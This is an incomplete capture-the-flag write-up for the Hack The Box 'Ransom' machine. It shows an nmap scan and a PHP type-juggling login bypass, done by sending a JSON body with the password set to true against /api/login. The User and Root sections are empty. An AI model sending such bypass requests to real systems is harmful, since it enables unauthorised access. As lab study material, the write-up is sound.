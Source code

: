 # Ransom

# Enumeration

````
# nmap -sV --top-ports 100 10.10.11.153 -oA nmap-10.10.11.153-sV
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-17 06:13 EDT
Nmap scan report for 10.10.11.153
Host is up (0.15s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.86 seconds
````

The application sends a GET request to /api/login?password=<passwd> to login in the application.

````http
GET /api/login?password=blah HTTP/1.1
Host: ransom.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://ransom.htb/login
Cookie: XSRF-TOKEN=eyJpdiI6Im9zRXJmTDJMbG1EZW1iT0IxcG5tV2c9PSIsInZhbHVlIjoiU3phYktmZTA3YW9jN0dITmZzTGJ3SFp4d1hONjNlZFhPdVNMNmI2MTF6elkvbSs3bllVUHQwMEYwUE9HN1l4VXpnZjhPZ0IycGlMUlk0VmN6YWR2N243RjJmQ0YxZW5JZi82dW5hbk16WVlSQWhnNXE2djREaERmd1FxLzZneS8iLCJtYWMiOiI5ZmIxYjhmMmFhOWNlMThhNjAxNTQ4NzIxYmZmZGViNGMwMDYxNTdhOGNhY2UxNDVhNzA1OGM0N2ZjYWFkNTY1IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IlcrQ1lmQXJYa3NNL3dOejVDTW9BVVE9PSIsInZhbHVlIjoidlJ3YmJGY241TmlibUlPVjFPOWlUelRUMWE4QVVVWGRhZlhKZnR4QXNTcUg3UDNoRWZNNGVKOGpCbnJUSFBOUy8rZk1JOHBCVEVpbkZHa3Q4bWV1K2tvUUI5M2FMTTFSTTNabjVuaE5VdDEvRUcvMHBPdUVQK0JYZ0luREtCMkgiLCJtYWMiOiJmNTAzNjE2YjNhYTgxODY1ZTVjMTc0M2ExMDA5ZTA5MWNhZGNhODc5M2JhOGFmMjk0YzE1MzI5NDA5YzFjNTVmIiwidGFnIjoiIn0%3D


````

There is a [Type Juggling == vs ===](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf) vulnerability in the application that can be exploited.

The application allows GET and HEAD method but also allows JSON on body, changing the password to TRUE (or 0) would make the internal comparision on php match.
  
````http
GET /api/login HTTP/1.1
Host: ransom.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://ransom.htb/login
Cookie: XSRF-TOKEN=eyJpdiI6Im9zRXJmTDJMbG1EZW1iT0IxcG5tV2c9PSIsInZhbHVlIjoiU3phYktmZTA3YW9jN0dITmZzTGJ3SFp4d1hONjNlZFhPdVNMNmI2MTF6elkvbSs3bllVUHQwMEYwUE9HN1l4VXpnZjhPZ0IycGlMUlk0VmN6YWR2N243RjJmQ0YxZW5JZi82dW5hbk16WVlSQWhnNXE2djREaERmd1FxLzZneS8iLCJtYWMiOiI5ZmIxYjhmMmFhOWNlMThhNjAxNTQ4NzIxYmZmZGViNGMwMDYxNTdhOGNhY2UxNDVhNzA1OGM0N2ZjYWFkNTY1IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IlcrQ1lmQXJYa3NNL3dOejVDTW9BVVE9PSIsInZhbHVlIjoidlJ3YmJGY241TmlibUlPVjFPOWlUelRUMWE4QVVVWGRhZlhKZnR4QXNTcUg3UDNoRWZNNGVKOGpCbnJUSFBOUy8rZk1JOHBCVEVpbkZHa3Q4bWV1K2tvUUI5M2FMTTFSTTNabjVuaE5VdDEvRUcvMHBPdUVQK0JYZ0luREtCMkgiLCJtYWMiOiJmNTAzNjE2YjNhYTgxODY1ZTVjMTc0M2ExMDA5ZTA5MWNhZGNhODc5M2JhOGFmMjk0YzE1MzI5NDA5YzFjNTVmIiwidGFnIjoiIn0%3D
Content-Type: application/json
Content-Length: 18

{ "password":true}
````


  
# User

# Root

# Secrets
  
https://0xdf.gitlab.io/2022/03/15/htb-ransom.html
